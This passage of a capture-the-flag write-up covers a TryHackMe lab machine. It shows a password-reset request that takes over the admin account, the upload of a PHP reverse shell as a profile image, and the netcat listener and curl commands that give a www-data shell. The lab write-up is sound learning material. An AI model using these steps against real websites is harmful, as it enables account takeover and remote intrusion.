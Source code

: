 ```
Referer: http://10.10.131.37/v2/ResetUser.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=o4uhk2qg369vgql7s0lebn91cj; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Connection: close

------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="uname"

admin@sky.thm
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="npass"

test
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="cpass"

test
------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="ci_csrf_token"


------WebKitFormBoundaryxdvYN3WHUb0ERBBw
Content-Disposition: form-data; name="send"

Submit
------WebKitFormBoundaryxdvYN3WHUb0ERBBw--
```
And, I was able to authenticate with credentials ```admin@sky.thm:test```. Now, I moved over to the profile editor again and uploaded a test txt file to see where it saves the profile picture. Looking in the source code of ```profile.php```, it appears the images are saved at ```/v2/profileimages/```. 
```
</div>	
<!-- /v2/profileimages/ -->
<script type="text/javascript">
</html> 
```

# Initial Access 
I created a php reverse shell using pentest monkey and uploaded it as my profile picture. Then, I opened a netcat listener at port 9999 (the port I chose for the php reverse shell). 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 9999
```
And curl'd the location where the images are stored to execute the reverse shell. 
```
ajread@aj-ubuntu:~/TryHackMe$ curl http://10.10.131.37/v2/profileimages/php-reverse-shell.php
```
I got a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.131.37 54696
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 00:34:20 up 26 min,  0 users,  load average: 0.00, 0.02, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```